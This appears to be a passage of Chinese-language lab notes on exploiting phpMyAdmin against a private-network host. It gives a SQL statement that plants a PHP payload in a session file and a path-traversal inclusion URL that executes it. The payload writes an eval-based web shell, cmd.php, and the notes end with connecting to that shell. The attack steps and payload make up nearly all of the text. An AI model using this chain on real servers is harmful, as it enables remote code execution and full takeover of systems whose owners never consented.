 `e9tnor3g779p5v8e9ros0hrs24of8tta` 是 phpadmin cookie的ID

获取phpadmin和安装目录和数据库session存储目录 


## 写入 shell

新建一个无痕窗口

执行

```sql
select "<?php file_put_contents('/var/www/html/cmd.php','<?php @eval($_POST[pass]);?>')?>"
```

访问

```
http://192.168.10.208/phpmyadmin/?target=db_sql.php?/../../../../../../../../tmp/sess_<session_id>
```

然后一件链接

```
http://192.168.10.208/cmd.php
```
